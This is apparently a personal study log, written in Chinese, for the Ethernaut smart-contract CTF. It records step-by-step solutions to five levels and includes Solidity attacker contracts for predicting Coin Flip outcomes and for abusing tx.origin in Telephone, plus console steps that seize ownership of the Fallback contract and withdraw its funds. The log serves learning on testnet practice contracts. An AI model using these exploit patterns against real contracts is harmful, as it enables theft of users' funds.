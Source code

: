 ```yaml
---
timezone: Asia/Taipei # 台灣标准时间 (UTC+8)
---
```



# Eekau

1. 自我介绍
hi, im Eekau.
2. 你认为你会完成本次残酷学习吗？
第一次參加希望能完成

# 殘酷共學

<!-- Content_START -->
- 1.Ethernaut CTF (31)
- 4.Ethcc CTF 2023 (5)
- 13.Openzeppelin CTF 2023 (9)

### 2024.08.29
>##### Ethernaut CTF (1/31)
>>###### Hello Ethernaut
>>1. 建立錢包
>>2. 在[Ethereum Faucet](https://cloud.google.com/application/web3/faucet/ethereum)領取Holešky測試幣 (可以使用其他網路)
>>3. 把網路切到Holešky開始遊戲
>>4. 根據說明在console裡輸入info()
>>5. 根據"PromiseResult"指示輸入ABI最終會需要輸入密碼
>>6. 輸入contract 查找ABI 發現password()這個function 找到密碼
>>7. 輸入獲得密碼 (這邊記得要把字串放在""裡面)
>>8. 點選網頁下方Submit instance
>>9. 獲得成功破關畫面

### 2024.08.30
> ### Ethernaut CTF (2/31)
>> #### Fallback
>> ##### 目標：成為owner，偷光合約的錢
>> ###### 先備知識 
>> - 了解 fallback
>> - 知道如何 sendTransaction
>> ###### 解題
>> 1. 觀察程式碼發現能更改owner的地方，除了`constructor()` 外有兩處 `contribute()` 和 `receive()`
>>```solidity
>>function contribute() public payable {
>>     require(msg.value < 0.001 ether); //只要發送0.001以上的ether 退回gass
>>     contributions[msg.sender] += msg.value;// 發送者獲得ether貢獻
>>     if (contributions[msg.sender] > contributions[owner]) {
>>     //只要發送者交給合約的ether比owner多
>>         owner = msg.sender; //把owner更換為發送者
>>     }
>> }
>> ```
>> 然而constructor()時 已經預設`contributions[msg.sender] = 1000 * (1 ether)` 自己的錢包並沒有這樣龐大數目的eth
>>```solidity
>>receive() external payable {
>>      require(msg.value > 0 && contributions[msg.sender] > 0);
>>      //只要msg.value大於0且有貢獻
>>      owner = msg.sender;
>>  }
>> ```
>> `receive()`觸發條件為 發送ether+msg.data為空。
>> 2. 查找function`sendTransaction`位置在excute.js
>> 找到說明是使用web3 API [sendTrasaction](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#eth-sendtransaction) 
>> 根據說明使用`contract.contribute.sendTransaction({ from: player,to: act.address value: toWei('0.0001')})`
>> 3. 用`await contract.getContribution().then(v => v.toString())` 確認 contribution > 0
>> 4. 再發出一次交易 觸發receive()
>> 5. 輸入`await contract.owner()` owener已經變成player了
>> 6. 使用 `contract.withdraw()` 把錢領光

### 2024.08.31
>#### Ethernaut CTF (3/31)
>>##### Fallout
>> ##### 目標：成為owner
>> 1. 觀察程式碼發現`Fal1out()`function可以更改owner為sender
>> 2. 輸入 `contract.Fal1out()` 
>> 3. 用`await contract.owner()`確認自己成為owner
###### 實際案例 
Rubixi hack

>#### Ethernaut CTF (4/31)
>>##### Coin Flip
>>##### 目標： 猜對10次
>>##### 先備知識
>> - block.number?
>> - 如何用Solidity和其他合約互動
>> 
### 2024.09.01

>> - block.number
>>   block.number 是當前 block 編號 並非真正隨機
>>   可以很容易查詢到
>> - 如何用Solidity和其他合約互動?
>>   ```solidity
>>   interface ICoinFlip {
>>       function flip(bool _guess) external returns (bool);
>>   }
>>   ```
>>   
>>   ```solidity
>>   contract Mycontract{
>>       ICoinFlip(目標合約).flip(side);
>>   }
>>   ```
>>   [參考影片](https://www.youtube.com/watch?v=YWtT0MNHYhQ)
>>   試著產出和給的程式碼相同結果的合約執行10次
>>   
> > ```solidity
> > // SPDX-License-Identifier: MIT
> > pragma solidity ^0.8.24;
> > 
> > interface ICoinFlip{
> >     function flip(bool _guess) external returns (bool);
> > }
> > contract solveFlip{
> >     uint256 public myConsecutiveWins;
> >     uint256 lastHash;
> >     uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
> >     constructor() {
> >     myConsecutiveWins = 0;
> >     }
> >     function guessCorrect(address _CoinFlip) external returns(bool isSuccess){
> > 
> >         uint256 blockValue = uint256(blockhash(block.number - 1));
> >         if(lastHash == blockValue) {
> >             revert();
>>         }
>>         
>>         lastHash = blockValue;
>>         uint256 coinFlip = blockValue / FACTOR;
>>         bool side = coinFlip == 1 ? true : false;
>>         return ICoinFlip(_CoinFlip).flip(side);
>>     }
>> }
>> ```
>> 通關~

### 2024.09.02
>#### Ethernaut CTF (5/31)
>>##### Telephone
>>##### 目標： 成為owner
>>##### 先備知識
>> - tx.origin 和 msg.sender 的不同
>>
>> 設計一個由contract地址幫玩家交互的function執行
>> 
>>```solidity
>>// SPDX-License-Identifier: MIT
>>pragma solidity ^0.8.24;
>>interface ITelephone{
>>    function changeOwner(address _owner) external;
>>}
>>contract solvetele{
>>    function helpMechageOwner(address _contrect) public{
>>        ITelephone(_contrect).changeOwner(msg.sender);
>>    }
>> }
>>```


<!-- Content_END -->

